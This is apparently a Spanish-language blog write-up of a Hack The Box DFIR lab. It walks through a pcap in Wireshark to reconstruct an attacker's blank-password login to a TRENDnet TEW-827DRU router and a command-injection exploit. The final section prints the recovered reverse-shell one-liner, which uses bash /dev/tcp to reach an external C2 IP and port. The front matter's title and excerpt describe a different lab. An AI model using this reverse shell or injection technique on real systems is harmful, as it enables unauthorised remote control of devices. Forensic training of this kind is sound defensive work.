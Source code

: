 ```yaml
---
layout: single
title: Sherlock Pikaptcha - Hack The Box
excerpt: Una reporte bastante resumido sobre la Operación Dream Job dirigida por el Lazarus Group y que se llevó a cabo a través de la plataforma de Linkedin. Una campaña de phishing altamente diriga con la finalidad de espiar y exfiltrar datos de sectores como la tecnología y la aviación. 
date: 2025-4-30
classes: wide
header: 
  teaser: ../assets/images/sherlock-trent/logo.png
  teaser_home_page: true
  icon: ../assets/images/hackthebox.webp
categories: 
   - sherlock-htb
   - DFIR
tags: 
   - wireshark
--- 
```


# **Sherlock - Trent** 

Se ha detectad actividad maliciosa dentro de la corporación, se cree que el atacante logró acceder al router a partir del fimware de éste, nuestro trabajo es investigar sus acciones para tener un mejor entendimiento de què fue lo que pasó. 

En este laboratorio se nos proporciona unicamente un `.pcap ` para analizar, estaremos usando wireshark y thsark para hacerlo, asi que podemos pasar rápidamente a las preguntas. 

---
**task 1**

¿Desde qué dirección IP lanzó inicialmente su actividad el atacante?

Esto podemos determinarlo de la siguiente forma, aplicando un filtro para detectar posibles escaneos de red y servicios, la herramienta màs conocida es nmap. 

![](../assets/images/sherlock-trent/imagen1.png)

Vemos claramente a la dirección ip `192.168.10.2` comunicarse varias veces con la dirección de gateway.

---
**task 2**

¿Cuál es el nombre del modelo del router comprometido?

Para esto, podemos aplicar un filtro por ip, ahora que ya sabemos que se trata del gateway, `ip.addr == 192.168.10.1`, hacemos click en el primer paquete que nos salga, seguimos el flujo http y podremos ver el nombre: 

![](../assets/images/sherlock-trent/image2.png)

Que se trata delrRouter WiFi MU-MIMO AC2600 de TRENDnet, modelo TEW-827DRU. 

---
**task 3** 

¿Cuántos intentos fallidos de inicio de sesión intentó el atacante antes de iniciar sesión con éxito en el router?

Para esto aplicamos el filtro en wireshark `ip.addr == 192.168.10.2 && http.request.method == "POST"`

![](../assets/images/sherlock-trent/imagen3.png)

Es en el tercer paquete donde ya vemos el html y css de la página de administración del router.

---
**task 4**

¿A qué hora UTC logró el atacante entrar en la interfaz de administración web de los routers?

Bie, y sabemos que fue en el tercer intento(tercer paquete) cuando logró acceder, podemos configurar el formato en el que se muestra la hora en wireshark en `View > Time Display Format`, la configuramos en UTC y obtenemos la hora. 

![](../assets/images/sherlock-trent/imagen4.png)


---
**task 5** 

¿Cuántos caracteres tenía la contraseña utilizada para conectarse correctamente?

La respuesta la podemos encontrar en el paquete que hemos estado inspeccionando, el que muestra el acceso del atacante al router: 

![](../assets/images/sherlock-trent/imagen5.png)

Donde: 

1. **`log_pass=`** → Este campo normalmente contiene la contraseña principal. En este caso, está **vacío** (`log_pass=`).
2. **`tmp_log_pass=`** → También está vacío.
3. **`login_name=YWRtaW4%3D`** → Este es el nombre de usuario codificado en Base64:

   * `YWRtaW4=` → Base64 decode → `admin`
4. **`login_n=admin`** → También repite el nombre de usuario, sin codificar.

**No se proporcionó una contraseña**

---
**task 6** 

¿Cuál es la versión actual del firmware instalado en el router comprometido? 

Esto podemos encontrarlo en las pàginas web de `adm_status.asp` o `adm_status.asp.html`. 

Estos nombres corresponden a **páginas web del panel de administración del router**.

* `adm_status.asp` → Es una página ASP (Active Server Page) que muestra **información de estado del router**, incluyendo:

  * Versión del firmware
  * Modelo del router
  * Dirección MAC
  * Tiempo de actividad
  * Etc.

* `adm_status.asp.html` → Es el **archivo HTML reconstruido** a partir de esa página, podemos encontrarlo con **NetworkMiner**.

Filtramos por: `http && frame contains "adm_status.asp"` en wireshark: 

![](../assets/images/sherlock-trent/imagen6.png)

---
**task 7** 

¿Qué parámetro HTTP fue manipulado por el atacante para conseguir la ejecución remota de código en el sistema?

Bien, podemos seguir con el filtro que usamos para encontrar el paquete en el que se muestra que el atacamte logró obtener acceso al panel de administración: `ip.src == 192.168.10.2 && ip.dst == 192.168.10.1 && http.request.method == "POST"`

Si el tercero fue en el que obtuvo acceso, el en cuarto podemos ver lo siguiente: 

![](../assets/images/sherlock-trent/imagen7.png) 

Una petición bastante extraña ya hacia el servicio SMB, en lo que parece un intento de Command Injection. 

---
**task 8** 

¿Cuál es el número CVE asociado a la vulnerabilidad explotada en este ataque?

Una búsqueda en google y nos encontramos esto: 

![](../assets/images/sherlock-trent/imagen8.png)

Descripción: 

Una vulnerabilidad de inyección de comandos en el router TRENDnet TEW-827DRU con la versión de firmware 2.10B01. Un atacante puede inyectar comandos en los parámetros de solicitud posterior usbapps.config.smb_admin_name en la interfaz apply.cgi, obteniendo así privilegios de root en el shell

---
**task 9** 

¿Cuál fue el primer comando que ejecutó el atacante al explotar la vulnerabilidad?

Seguimos inspeccionando los paquetes devueltos por el filtro con el que hemos estado trabajando: 

![](../assets/images/sherlock-trent/imagen9.png)

Un comando típico para comprobar la ejecución de comandos

---
**task 10** 

¿Qué comando utilizó el actor para iniciar la descarga de un shell inverso en el router desde un host externo a la red?

![](../assets/images/sherlock-trent/imagen10.png)

---
**task 11**

Múltiples intentos de descargar la shell inversa desde una IP externa fallaron. Cuando el actor cometió un error tipográfico en la inyección, ¿qué mensaje de respuesta devolvió el servidor?

El paquete siguiente del paquete de la pregunta anterior, seguimos el `HTTP stream`: 

![](../assets/images/sherlock-trent/imagen11.png)

---
**task 12** 

¿Cuál era la dirección IP y el número de puerto del servidor de comando y control (C2) cuando el shell inverso del actor finalmente se conectó? (IP:Puerto) 

Para esto nos descargamos el fichero `a1l4m.sh` en `File > Export Objects > HTTP` 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat a1l4m.sh     
bash -i > /dev/tcp/35.159.25.253/41143 0<&1 2>&1
```


